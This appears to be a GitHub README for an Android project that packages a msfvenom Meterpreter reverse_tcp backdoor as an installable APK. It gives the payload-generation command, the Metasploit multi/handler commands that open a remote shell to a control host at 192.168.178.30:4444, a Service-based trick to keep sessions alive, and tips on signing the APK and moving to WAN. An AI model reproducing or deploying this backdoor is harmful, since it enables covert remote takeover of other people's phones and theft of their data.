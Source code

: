 # msfvenom-backdoor-android
This Android Studio project contains the source code of the backdoored .apk generated by 
$msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.178.30 LPORT=4444 R > result.apk

(in Kali linux suite)

Tries to solve the issue:

[*]Meterpreter session x closed - Reason:died

message, by starting payload in a Service. Meterpreter session is more stable in this way (original msfvenom apk often causes session to die very soon)

In this project the backdoor works in LAN settings, opening a meterpreter session to 192.168.178.30 on port 4444
(this settings can be changed in Payload.java file if you want to work in a WAN)
The control server must be executing handler exploit with Metasploit, with following commands:

$msfconsole
$use exploit/multi/handler
$set payload android/meterpreter/reverse_tcp
$set LHOST 192.168.178.30
$set LPORT 4444
$exploit

after the metasploit machine is waiting, the .apk can be installed and launched on the android terminal.

Remember to sign the .apk with a key before installing!!

Tested on Samsung Galaxy S6 - Lollipop
